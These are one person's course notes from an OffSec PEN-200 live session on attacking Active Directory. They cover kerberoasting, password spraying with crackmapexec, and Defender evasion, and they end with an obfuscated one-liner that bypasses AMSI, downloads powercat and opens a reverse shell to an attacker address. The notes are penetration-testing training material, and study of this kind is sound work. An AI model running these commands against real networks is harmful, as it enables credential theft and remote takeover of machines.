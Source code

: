 # OffSec Live: PEN-200

author:: Nathan Acks  
date:: 2022-08-26

## Active Directory Enumeration & Exploitation, Part 2

* `Get-DomainUsers -SPN` will list AD service accounts using `PowerView.ps1`.
* In AD, the domain controller will grant a service ticket for *any* service to *any* user. Access is enforced by the *service* machine.
* Since AD tickets are encrypted using account password hashes — so if weak passwords are chosen for service accounts, tickets can be cracked to retrieve service account passwords.
* There is an `Invoke-Kerberos.ps1` PowerShell module out there that does native kerberoasting from PowerShell. Output can be passed to Hashcat, among others. Be sure to set the `-Width` parameter (vixx recommends 8000) when using `Out-File` with this module, or this function won’t output the entire ticket! — `Invoke-Kerberoast -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath "$FILE_PATH" -Width 8000`
* SSH port forwarding is actually using SOCKS5 under the hood. This is important to know when setting up tools like `proxychains`.
* There’s a tool called `crackmapexec` that allows cracked passwords to be sprayed across an AD environment (available in the Kali repos). Since SMB shares are both common and often contain interesting files, this is a good service to try to gain (indiscriminate) access to. (Note that you *shouldn’t* use password spraying to try to crack user passwords, as doing so will likely lead to account lockouts and subsequent alarms. Instead, use spraying to determine user access.) — `crackmapexec smb $TARGET_NETWORK/$TARGET_NETMASK -u $TARGER_USER -p $CRACKED_PASSWORD 2> /dev/null`
* Microsoft Defender now detects ImPacket PSEXEC and SMBEXEC execution attempts.
* The SCShell fileless lateral movement tool is generally *not* detected by Microsoft Defender (at least as of this course). It does require RPC to be available on the target, though this is common in AD environments.
* Powercat is a reimplementation of netcat in PowerShell. Helpful!
* A one-liner to bypass AMSI and fire up a PowerShell reverse shell using Powercat: `[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true); IEX (New-Object System.Net.Webclient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1"); powercat -c $ATTACKER_IP -p $ATTACKER_PORT -e cmd.exe`

### References

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Using PowerShell](../notes/powershell.md)
* [EmpireProject / Empire / module_source / credentials / Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
* [Kerberos](../notes/kerberos.md)
* [Using Hashcat](../notes/hashcat.md)
* [Mr-Un1k0d3r / SCShell](https://github.com/Mr-Un1k0d3r/SCShell)
* [besimorhino / powercat](https://github.com/besimorhino/powercat)
